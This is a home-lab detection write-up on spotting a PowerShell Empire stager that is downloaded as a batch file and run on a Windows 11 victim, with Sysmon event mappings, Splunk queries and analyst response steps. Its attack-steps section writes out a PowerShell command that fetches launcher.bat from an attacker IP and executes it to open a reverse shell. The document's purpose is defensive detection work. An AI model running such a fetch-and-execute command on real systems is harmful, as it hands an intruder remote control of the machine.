 

# Detection Usecase 3 : Suspicious File Download and Execution via PowerShell Empire


# Scenario Summary: 

An Attacker has downloaded a bat file in the system using powershell and attempted to execute that bat file in the System to get a Reverse Shell Connection.

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.  
- The Attack was simulated by Kali Linux on Windows as follows:  

1) Attacker generated the listener and stager in Powershell-Empire then downloaded that bat file in victim system:     
```
Invoke-WebRequest -URI http://192.168.0.106:8888/launcher.bat -Outfile C:\Users\sshuser\shell.bat
./shell.bat
```  
2) Got shell access to victim Machine:  
![empire](logs/Screenshot_2025-05-28_06_55_25.png)


- Tools Used:  
    - Attacker Tool : PowerShell-Empire.  
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon  


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                         |
|---------------------------|-----------|-------------------------------------|
| WinEventLog : Sysmon      | 3         | Connection Attempt Detected         |
| WinEventLog : Sysmon      | 1         | Process Creation                    |
| WinEventLog : Sysmon      | 11        | File Creation                       |
| WinEventLog : Security    | 5156      | Connection Permission was permitted |

# Detection Query / Logic:
```spl 
- Search : Command&Control Beaconing
index=* 192.168.0.106 | stats count by EventCode, Source_Address, Destination_Address
```
```spl 
- Search : Connection Attempt
index=* EventCode=3 OR EventCode=5156
```
```spl 
- Search : File or Process Creation
index=* EventCode=11 OR EventCode=1
```

# Sample Alert Screenshot

1) Attacker make a connection with the system and run powershell:  

![login](<logs/Screenshot 2025-05-28 163541.png>)  
![powershell](<logs/Screenshot 2025-05-28 163507.png>)

2) After running the Powershell there was again a connection through Powershell:   

![pesh1_connection](<logs/Screenshot 2025-05-28 163840.png>)  

3) After the Connection a new file was created:  

![file](<logs/Screenshot 2025-05-28 163944.png>) 

4) Then the file was run and some encoded string where noticed in the logs:  

![run1](<logs/Screenshot 2025-05-28 163146.png>)  
![run2](<logs/Screenshot 2025-05-28 163308.png>)  

5) After the file was run many outbound response is seen in the logs:  

![log](<logs/Screenshot 2025-05-28 163021.png>) 


# Analyst Notes / Recommendations:

* What Should an Analyst do ? 

-> Investigate and Verify the events(e.g.,Event ID = 1,11) and identify what command has been executed.  
-> Try to correlate it with any previous event(e.g.,Brute-Force or Enumeration,Failed Login etc.).  
-> If you validated that the command execution of any file (exe,bat etc) is been done by some unknown IP then, isolate the system and block the unknown IP.  
-> Check for any Registory Modification or New Service Installation, or any Account Creation from that unknown IP.  
-> Preserve the Evidence & Trigger an incident response.     
-> Document & Report.


# Detection Status

 -> Successfully Detected.  
